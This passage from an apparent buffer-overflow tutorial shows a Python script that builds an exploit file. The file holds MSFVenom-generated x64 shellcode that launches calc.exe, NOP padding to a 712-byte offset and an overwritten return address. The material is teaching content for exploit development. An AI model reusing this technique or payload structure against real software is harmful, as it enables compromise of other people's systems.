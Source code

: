 <p align="center"><img src="/images/basics-of-exploit-development-5-x86-64-buffer-overflows/MSFVenom.PNG"/></p>    
<p align="center"><i>MSFVenom payload generation.</i></p>

We can now add this to our exploit code to get the following:
```
f = open("crash-4.txt", "wb")  
  
buf =  b""  
buf += b"\xfc\x48\x83\xe4\xf0\xe8\xc0\x00\x00\x00\x41\x51\x41"  
buf += b"\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48"  
buf += b"\x8b\x52\x18\x48\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f"  
buf += b"\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac\x3c\x61\x7c"  
buf += b"\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2\xed\x52"  
buf += b"\x41\x51\x48\x8b\x52\x20\x8b\x42\x3c\x48\x01\xd0\x8b"  
buf += b"\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x67\x48\x01\xd0"  
buf += b"\x50\x8b\x48\x18\x44\x8b\x40\x20\x49\x01\xd0\xe3\x56"  
buf += b"\x48\xff\xc9\x41\x8b\x34\x88\x48\x01\xd6\x4d\x31\xc9"  
buf += b"\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01\xc1\x38\xe0"  
buf += b"\x75\xf1\x4c\x03\x4c\x24\x08\x45\x39\xd1\x75\xd8\x58"  
buf += b"\x44\x8b\x40\x24\x49\x01\xd0\x66\x41\x8b\x0c\x48\x44"  
buf += b"\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04\x88\x48\x01\xd0"  
buf += b"\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59\x41\x5a"  
buf += b"\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48"  
buf += b"\x8b\x12\xe9\x57\xff\xff\xff\x5d\x48\xba\x01\x00\x00"  
buf += b"\x00\x00\x00\x00\x00\x48\x8d\x8d\x01\x01\x00\x00\x41"  
buf += b"\xba\x31\x8b\x6f\x87\xff\xd5\xbb\xf0\xb5\xa2\x56\x41"  
buf += b"\xba\xa6\x95\xbd\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06"  
buf += b"\x7c\x0a\x80\xfb\xe0\x75\x05\xbb\x47\x13\x72\x6f\x6a"  
buf += b"\x00\x59\x41\x89\xda\xff\xd5\x63\x61\x6c\x63\x2e\x65"  
buf += b"\x78\x65\x00"  
buf += b"\x90" * (712 - len(buf))  
buf += b"\xF0\x6A\x7D\x00\x00\x00\x00\x00" #00000000007D6AF0  
buf += b"\x41" * 300  
	  
f.write(buf)  
```
